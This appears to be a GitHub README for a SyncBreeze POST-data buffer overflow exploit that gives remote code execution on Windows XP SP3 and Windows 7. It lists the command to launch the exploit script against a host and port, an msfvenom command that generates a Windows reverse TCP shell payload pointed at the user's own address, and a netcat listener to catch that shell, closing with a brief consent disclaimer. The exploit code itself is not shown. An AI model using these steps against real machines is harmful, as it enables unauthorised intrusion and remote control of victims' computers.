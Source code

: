 # SyncBreeze Buffer OverFlow > Remote Code Execution
POST data buffer overflow
## How it works?
That easy BoF, rewritten by me, will overwrite the buffer and execute the shellcode
## Vuln machines:
WindowsXP SP3
Windows7
## Launch:
````~$ python3 SyncBreeze.py <host> <port>````
## Change the ShellCode with your own!!
````~$ sudo ./msfvenom windows/shell_reverse_tcp LHOST=<your ip> LPORT=4444````
## Listen with netcat:
````~$ ncat -lvp 4444````
### Don't pwn any machine without consent!!
